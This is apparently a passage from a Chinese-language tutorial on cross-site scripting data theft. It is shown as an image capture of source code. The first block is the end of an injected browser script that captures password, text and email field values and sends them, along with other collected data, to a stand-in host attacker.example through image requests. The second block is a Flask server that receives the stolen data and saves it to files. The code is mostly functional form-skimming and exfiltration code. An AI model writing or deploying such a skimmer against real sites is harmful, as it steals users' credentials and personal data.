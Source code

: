 ```html hl:5,31,39
        };

        // 创建图片请求来发送数据（避免跨域限制）
        const img = new Image();
        img.src = `https://attacker.example/collect?data=${encodeURIComponent(JSON.stringify(stolenData))}`;
    }

    // 立即执行信息收集
    stealInfo();

    // 监听用户输入（例如捕获用户在网站上输入的信息）
    document.addEventListener('change', function(e) {
        if(e.target.type === 'password' || e.target.type === 'text' || e.target.type === 'email') {
            const inputData = {
                type: e.target.type,
                name: e.target.name,
                value: e.target.value
            };
            
            // 发送用户输入数据
            const img = new Image();
            img.src = `https://attacker.example/collect?input=${encodeURIComponent(JSON.stringify(inputData))}`;
        }
    });
</script>
```

### 3.4. 攻击者的服务器端代码（示例）： `https://attacker.example/collect`

```python hl:24
# 攻击者的服务器 (Python + Flask)
from flask import Flask, request
import json
from datetime import datetime

app = Flask(__name__)

@app.route('/collect')
def collect():
    # 获取窃取的数据
    stolen_data = request.args.get('data')
    
    if stolen_data:
        # 解码数据
        data = json.loads(stolen_data)
        
        # 保存到文件
        timestamp = datetime.now().strftime('%Y%m%d_%H%M%S')
        filename = f'stolen_data_{timestamp}.json'
        
        with open(filename, 'w') as f:
            json.dump(data, f, indent=2)
    
    # 返回 1x1 透明 GIF
    return b'\x47\x49\x46\x38\x39\x61\x01\x00\x01\x00\x80\x00\x00\xff\xff\xff\x00\x00\x00\x2c\x00\x00\x00\x00\x01\x00\x01\x00\x00\x02\x02\x44\x01\x00\x3b'

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=80)
```
